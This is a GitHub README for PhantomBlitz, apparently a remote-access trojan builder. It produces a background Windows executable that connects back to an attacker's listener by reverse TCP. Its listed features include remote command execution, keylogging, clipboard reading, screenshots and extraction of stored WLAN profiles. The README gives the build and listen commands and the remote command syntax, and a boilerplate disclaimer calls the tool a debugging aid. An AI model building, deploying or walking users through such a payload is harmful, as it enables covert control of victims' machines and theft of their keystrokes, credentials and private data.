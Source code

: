  # PhantomBlitz
![image](https://user-images.githubusercontent.com/111997815/235445673-e72f087d-ce6f-4737-a1eb-f36e1fcf4aad.png)

**PhantomBlitz is a Python-based framework that creates an executable file with various parameters. It allows users to perform a reverse TCP connection and execute cmd commands.**
> **IMPORTANT**:```PLEASE USE WINDOWS FOR PAYLOAD FILE GENERATION ⚠ DETECTABLE BY AV AND WINDOWS```
![VIRUS-TOTAL-SCREENSHOT](https://github.com/devsdenepal/PhantomBlitz/blob/main/341264188_211432421592581_4782327762530171716_n.png?raw=true)
## Features

- [x] Reverse TCP Connection 
- [x] Execute cmd commands
- [x] Collect OS info
- [x] Set clipboard text
- [x] Get clipboard text
- [x] Take screenshot
- [x] Start file server
- [x] Analyze LAN traffic
- [x] Type text
- [x] Download URL
- [x] Open link
- [x] Generate WLAN profile
- [x] Keylogger
## Requirements
> Same platform as the client
```python3 -m pip install -r requirements.txt```
## Usage

PhantomBlazer can be executed with the following parameters:
``` 
    --mode/-m: Mode: accepts > build or listen
    --lhost/-lh: The local host IP address
    --lport/-lp: The local port number
    --output/-o: The output file name
```
> Example: ``` python3 phantomblazer.py -m build --lh <ip.address> --lp <port> --output<application.name>.exe```
> Before payload execution on client: ``` python3 phantomblazer.py -m listen --lh <ip.address> -lp <port> ```

### Inbuilt ommands can be executed using the following syntax:
```
    collect-os-info
    set clipboard <text>
    get clipboard
    take screenshot
    start file server
    analyze lan traffic
    type <text>
    download <url>
    open link <link>
    generate wlan profile *
    generate wlan profile <name>
    start keylogging
```
> To view captured use ```start file server``` for remote file service , the server will be on the client's address
## DISCLAIMER:
This tool is intended for legal and ethical use only. The creator of this tool is not responsible for any illegal or unethical use of this tool.

The tool creates a .exe file which runs as a background and creates a reverse TCP connection, allowing for remote command execution. This tool is intended for debugging purposes and should not be used to gain unauthorized access to systems.

Please use this tool at your own risk and with the appropriate permissions from the system owners. Any actions taken with this tool are the sole responsibility of the user.

By using this tool, you agree to the <a href = "https://github.com/devsdenepal/PhantomBlitz/blob/main/terms-and-conditions.md">```terms and conditions```</a> outlined above and acknowledge that any misuse of this tool is strictly prohibited.

